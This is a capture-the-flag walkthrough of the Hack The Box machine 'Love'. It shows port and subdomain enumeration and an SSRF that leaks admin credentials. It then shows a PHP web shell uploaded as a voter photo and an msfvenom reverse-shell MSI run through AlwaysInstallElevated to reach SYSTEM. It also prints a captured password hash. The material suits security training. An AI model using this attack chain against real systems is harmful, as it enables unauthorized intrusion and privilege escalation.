

# Love

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Easy |
| **Topics** | SSRF, Server Side Request Forgery, File Scanner Free, Voting System, AlwaysInstallElevated PrivEsc |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Scan

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -v -oN AllPorts 10.10.10.239 -oN AllPorts
```

Result: 

```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5000/tcp  open  upnp
5040/tcp  open  unknown
5985/tcp  open  wsman
5986/tcp  open  wsmans
7680/tcp  open  pando-pub
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

TCP Full Scan: 

```bash
nmap -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001 -sCV -Pn -n -v -oN FullScan 10.10.10.239
```

Result: 

```bash
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
443/tcp   open  ssl/http    Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
|_SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: HEAD
445/tcp   open              Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
5000/tcp  open  http        Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-11T14:39:19
| Not valid after:  2024-04-10T14:39:19
| MD5:   d35a:2ba6:8ef4:7568:f99d:d6f4:aaa2:03b5
|_SHA-1: 84ef:d922:a70a:6d9d:82b8:5bb3:d04f:066b:12f8:6e73
|_http-title: Not Found
|_ssl-date: 2023-07-21T02:41:51+00:00; +21m28s from scanner time.
7680/tcp  open  pando-pub?
47001/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-20T19:41:40-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h06m29s, deviation: 3h30m03s, median: 21m27s
| smb2-time: 
|   date: 2023-07-21T02:41:37
|_  start_date: N/A
```

Note: Server is using Virtual hosting: 

Nikto:

```bash
nikto -h http://10.10.10.239                                                   
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.239
+ Target Hostname:    10.10.10.239
+ Target Port:        80
+ Start Time:         2023-07-20 22:23:02 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
+ /: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /: Retrieved x-powered-by header: PHP/7.3.27.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ PHP/7.3.27 appears to be outdated (current is at least 8.1.5), PHP 7.4.28 for the 7.4 branch.
+ OpenSSL/1.1.1j appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
+ Apache/2.4.46 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ /admin/: This might be interesting.
+ /includes/: Directory indexing found.
+ /includes/: This might be interesting.
+ /admin/index.php: This might be interesting: has been seen in web logs from an unknown scanner.
+ /icons/: Directory indexing found.
+ /images/: Directory indexing found.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /Admin/: This might be interesting.                                                                                                      
+ 8852 requests: 0 error(s) and 17 item(s) reported on remote host                                                                         
+ End Time:           2023-07-20 22:38:52 (GMT-4) (950 seconds)
```

Wfuzz:

```bash
000000002:   301        9 L      30 W       338 Ch      "images"                                                                  
000000245:   301        9 L      30 W       337 Ch      "admin"                                                                   
000000189:   301        9 L      30 W       338 Ch      "Images"                                                                  
000000505:   301        9 L      30 W       339 Ch      "plugins"                                                                 
000000624:   301        9 L      30 W       340 Ch      "includes"                                                                
000000888:   503        11 L     44 W       402 Ch      "examples"                                                                
000001489:   301        9 L      30 W       336 Ch      "dist"                                                                    
000003659:   301        9 L      30 W       338 Ch      "IMAGES"                                                                  
000006084:   301        9 L      30 W       337 Ch      "Admin"                                                                   
000010302:   301        9 L      30 W       339 Ch      "Plugins"                                                                 
000032483:   301        9 L      30 W       340 Ch      "Includes"                                                                
000045226:   200        125 L    324 W      4388 Ch     "http://10.10.10.239/"                                                    
000054503:   301        9 L      30 W       336 Ch      "Dist"

```

Subdomain Enumeration: WFuzz

```markdown
wfuzz -c --hc=400,403,404 --hw=324 -t 20 -f filename,raw -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://love.htb' -H "Host: FUZZ.love.htb"
```

Result: 

```markdown
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                  
=====================================================================

000000067:   200        191 L    404 W      5357 Ch     "staging"
```

Subdomain Enumeration: Gobuster

```markdown
gobuster dns -d love.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50
```

Result:

```markdown
Found: staging.love.htb
```

HTTP: 80 - main index



HTTP: 80 - `/admin/index.php`


WinPEAS Enumeration

```markdown
Version: NetNTLMv2
  Hash:    Phoebe::LOVE:1122334455667788:32ae38204143d08bbf9df0f1d06a3dc1:0101000000000000ad155d1f47c0d901dd78ee8594197ba600000000080030003000000000000000000000000020000063a2399972e914eee24c35083754258f3f6b3c7f7767fd11f08b404794d58da30a00100000000000000000000000000000000000090000000000000000000000
```

---

# Initial Access

After the initial enumeration we found an additional subdomain identified as `staging.love.htb`. Specifically in the certificate of the SSL for the port 443


Adding this domain to the `/etc/hosts` and the browsing to the website we will see a new portal related to an online scanner


Checking the `Demo` tab, we will see a new option to pass an URL for scan:


We try to create a HTML test file and then open a http server to test if the victim machine can perform remote requests:


As we can see the file can read our file, so, let’s try to put a PHP file


After performing the request, it looks like that the server has some sanitization as it didn’t read our code:


Since we can’t upload malicious PHP files, somehting we can do is perform a Server Side Request Forgery (SSRF) by performing HTTP requests to internal ports that are not publicly available. 

As we verified in the initial Nmap Scan, there were some ports that responded with a 400 error, for instance the port `5000`

Reference Nmap Initial Scan: 


Let’s try to make a HTTP request to the internal ports `5000,5040,5985,5986`:

To do that, we just change the IP for the loopback IP, so the server will interpretet the request as an internal request:

```bash
http://127.0.0.1:5000
```

After sending the request we found some credentials:


As we saw at the beggining, there were 2 portals being hosted in the port 80, one for candidates, and one for admin user.

This password is likely to be the one for the administrator user, so let’s try it.

Credentials found:

```bash
User: admin
Pass: @LoveIsInTheAir!!!!
```


Success! We got access grated as admin


Then, after examining the options on the panel, we wil see that we can create “Voters” and upload a file as a photo for that user:


Options


If we try to create one and upload our previous [shell.php](Love%2037eeb47e30b34557a70204f0a8a7573a.md), the server will allow us to save the user without problem. 


The user was saved without problem:


Now, we need somehow to access that php file, to do this, from the initial scan we discovered a path identified as `/images` which is likely to contain all the voters photos.

```bash
http://10.10.10.239/images
```


Nice! We can see our `shell.php` uploaded. Now, if we try to access, the server should interpret the code which was a simply `whoami`


Perfect, we got a potential vector for remote code execution. 

Let’s try to create another user and upload a new php file with the following code:

```bash
<?php
	echo "<pre> . shell_exec($_REQUEST['cmd']) . </pre>";
?>
```

Once uploaded, we just have to make the following request and pass whatever command we want: 

Request:

```bash
http://10.10.10.239/images/test.php?cmd=ipconfig
```

Result: ipconfig command


At this point, we just need to generate a PS Reverse Shell code and send it.

User PowerShell #3 Base64 from: https://www.revshells.com/


Success! We got access as `phoebe`


# Privilege Escalation

Enumerating the System for any Vulnerable configuration we will see that the permission `AlwaysInstalledElevated` is currently enabled.

We can check this configuration using the following command: 

```markdown
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Result: 

```markdown
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

**If** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) `*.msi` files as NT AUTHORITY\**SYSTEM**.

Note: This vulnerable configuration is also detected by winPEAS. 

Reference: [Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

Based on this information, we can create a malicious MSI package with MSFVenom and get a reverse shell

Command:

```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.26 LPORT=4445 --platform windows -a x64 -f msi -o rshell.msi
```

Transfer the file to the victim machine and execute it using the following command: 

```markdown
msiexec /quiet /qn /i rshell.msi
```

Expected Result: 


Success! We got access as `NT AUTHORITY/SYSTEM` 

[Owned Love from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/344)